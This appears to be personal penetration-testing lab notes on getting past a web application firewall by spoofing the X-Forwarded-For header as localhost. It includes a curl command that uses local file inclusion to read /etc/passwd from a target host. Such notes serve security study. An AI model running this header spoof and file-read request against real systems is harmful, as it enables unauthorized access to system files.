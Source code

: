### WAF Web Application Firewall

![[Pasted image 20220307105734.png]]

WAF: Access Denied for this Host.


X-Forwarded-For Header

"The X-Forwarded-For (XFF) header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer. When traffic is intercepted between clients and servers, server access logs contain the IP address of the proxy or load balancer only. To see the original IP address of the client, the X-Forwarded-For request header is used."

```burpsuite - kali
X-Forwarded-For: 127.0.0.1
```

Ensure we have TWO blank lines under this (lines 8 and 9 in photo)

![[Pasted image 20220307111047.png]]

LFI
![[Pasted image 20220307120119.png]]

```bash -kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```

[[3._LFI RFI]]

#### Examples

[[GraphQL Graphiql]]



















